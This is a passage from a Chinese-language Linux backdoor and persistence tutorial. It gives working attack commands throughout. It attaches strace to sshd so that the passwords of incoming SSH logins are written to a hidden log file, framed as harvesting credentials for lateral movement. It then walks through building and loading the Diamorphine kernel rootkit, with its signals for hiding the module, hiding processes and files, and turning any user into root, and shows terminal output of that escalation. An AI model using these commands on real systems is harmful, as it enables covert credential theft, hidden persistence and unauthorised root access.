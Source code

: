 **第二种方式**

不只是可以监听连接他人，还可以用来抓到别人连入的密码。应用场景如：通过漏洞获取root权限，但是不知道明文密码在横向扩展中可以使用。

```
ps -ef | grep sshd    //父进程PID
strace -f -p 523 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048
```

执行了这两条命令后，当有其他机器ssh连接本机器时，无论密码正确还是错误，都会被记录到/tmp/.ssh.log这个日志文件中



## 13. Diamorphine后门

Diamorphine 是一个Linux内核模块， 支持内核版本 2.6.x/3.x/4.x。可通过 uname -r 查看内核版本。

下载

```
git clone https://github.com/m0nad/Diamorphine
```

```
[root@vuln test]# cd Diamorphine
[root@vuln Diamorphine]# make

#加载模块
[root@vuln Diamorphine]# insmod diamorphine.ko

#该模块默认是隐藏的，要想可见执行
[root@vuln Diamorphine]# lsmod | grep -i Diamorphine
[root@vuln Diamorphine]# kill -63 0
[root@vuln Diamorphine]# lsmod | grep -i Diamorphine
diamorphine            16384  0
```

使用

- When loaded, the module starts invisible;
- Hide/unhide any process by sending a signal 31;
- Sending a signal 63(to any pid) makes the module become (in)visible;
- Sending a signal 64(to any pid) makes the given user become root;
- Files or directories starting with the MAGIC_PREFIX become invisible;

提权到root(必须root加载的模块)

```
[root@vuln Diamorphine]# su shadowtest
$ whoami
shadowtest
$ su root
密码：
su: 鉴定故障
$ kill -64 0
$ whoami
root
$ su root
[root@vuln Diamorphine]#
```







## 14. 参考

- https://whoamianony.top/2021/10/22/Web%E5%AE%89%E5%85%A8/%E6%9C%89%E8%B6%A3%E7%9A%84%20LD_PRELOAD/
- https://www.cnblogs.com/xiaoxiaosen/p/13359729.html
